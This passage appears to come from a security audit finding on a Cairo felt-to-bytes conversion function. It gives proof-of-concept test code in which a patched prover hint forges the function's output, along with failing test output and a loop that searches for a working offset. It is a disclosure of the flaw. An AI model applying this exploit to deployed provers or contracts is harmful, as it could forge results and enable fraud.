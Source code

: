 ```
            expected = int.to_bytes(1, 1, byteorder="little")

            assert(bytes(output) == expected)
```

Running the test shows the prover's manipulated output vs. the expected output:

```
    FAILED tests/src/berndt/test_berndt.py::TestFeltToBytesLittle::test_felt_to_bytes_exploit - AssertionError: assert b'\x02\x02\x0...8\xb8\xb8\x04' == b'\x01'
      
      At index 0 diff: b'\x02' != b'\x01'
      
      Full diff:
      - b'\x01'
      + (b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02\x02'
      +  b'\x02\x02\x02\x02\x02\x02\x02\xe6\x0f@@@@@\xd4~4\x84\xc4RQ\xa1\xf6\xcb'
      +  b'\xac\xad\x99\x95\x15\x96\xd6\xc6S\xba\xb8\xb8\xb8\xb8\x04')
```

A skilled attacker who invests enough time can almost arbitrary output strings, as long as they make sure that `value` reaches zero at some point and `pow256_table + bytes_len] == 0`.

P.S., whether the same offset works may depend on the Cairo compiler version. I used the following test to find a valid offset:

```
        def test_should_return_bytes(self, cairo_program, cairo_run):

            stop = 134

            while 1:

                print("Trying stop = " + str(stop))

                hint = f"if ids.bytes_len < {stop}:\n  memory[ids.output] = 2\n"\
                    f"elif ids.bytes_len == {stop}:\n  ids.base == 2 ** 8\n  memory[ids.output] = res = (int(ids.value) % PRIME) % ids.base\n"\
                    "else:  memory[ids.output] = res = (int(ids.value) % PRIME) % ids.base\n  "
        
                with (
                    patch_hint(
                        cairo_program,
                        "memory[ids.output] = res = (int(ids.value) % PRIME) % ids.base\nassert res < ids.bound, f'split_int(): Limb {res} is out of range.'",
                        hint,
                    ),
                ):
                    with cairo_error(message="bytes_len is not the minimal possible"):
                        output = cairo_run("test__felt_to_bytes_little", n=1)
                        expected = int.to_bytes(1, 1, byteorder="little")

                    stop += 1
```
